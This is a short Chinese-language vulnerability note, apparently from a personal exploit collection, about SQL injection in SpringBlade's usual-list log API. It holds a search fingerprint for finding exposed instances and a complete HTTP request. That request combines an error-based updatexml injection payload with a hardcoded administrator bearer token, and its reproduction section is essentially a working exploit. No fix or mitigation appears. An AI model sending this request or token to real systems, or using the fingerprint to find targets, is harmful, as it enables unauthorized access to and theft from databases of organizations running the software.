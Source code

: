 # SpringBlade usual-list存在SQL注入漏洞

# 一、漏洞简介
SpringBlade usual-list存在SQL注入漏洞，攻击者利用该漏洞进行SQL注入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/UrhsBBU4enGgnTv_/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-979030.png)

# 四、漏洞复现
```java
GET /api/blade-log/usual/list?updatexml(1,concat(0x7e,user(),0x7e),1)=1 HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```

![1722874655789-f2bdb393-4984-4ec8-b3fc-686b5e59b4ca.png](./img/UrhsBBU4enGgnTv_/1722874655789-f2bdb393-4984-4ec8-b3fc-686b5e59b4ca-732552.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xkw7kw5b99sih1la>